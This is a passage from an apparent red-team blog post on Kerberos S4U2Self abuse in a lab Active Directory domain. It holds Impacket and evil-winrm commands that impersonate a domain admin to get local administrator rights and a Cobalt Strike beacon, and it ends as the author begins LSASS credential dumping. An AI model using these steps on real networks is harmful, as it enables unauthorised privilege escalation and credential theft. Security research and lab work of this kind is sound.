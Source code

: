 Once we have it, we can abuse Kerberos S4U2Self to ask for Service Ticket that impersonates a domain user with local admin right on the machine.

Unfortunately, I did not succeed to perform this step with Cobalt Strike only so I used a SOCKS proxy and Impacket on my Linux VM.

```bash
> echo -n 'ticket...' | base64 -d > web1.kirbi
> ticketConverter.py web1.kirbi web1.ccache
> export KRB5CCACHE=web1.ccache
> git clone https://github.com/ThePorgs/impacket/
# install it
# carreful with SPN name, try lower case and upper case for "HTTP"
# I skipped the SOCKS proxy part here
> getST.py -self -impersonate "sadmin" -altservice "HTTP/web1.crash.lab" -k -no-pass -dc-ip 10.100.10.5 'crash.lab/web1$'
# use this to debug
> export KRB5_TRACE=/dev/stdout
> export KRB5CCNAME=sadmin@HTTP_web1.crash.lab@CRASH.LAB.ccache
# update /etc/krb5.conf if GSS error  
> evil-winrm.rb -i web1.crash.lab -r crash.lab
```

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part2/evilwinrm.png)

And popup a beacon as local administrator (the `*` in `sadmin*` means the beacon runs in a high integrity context).

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part2/admin-cs.png)

## LSASS credentials dumping

That’s the tricky part… It’s seems that when `Credentials hardening` is enabled, it is not possible to open an handle on LSASS.exe

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part2/creds-hardening.png)
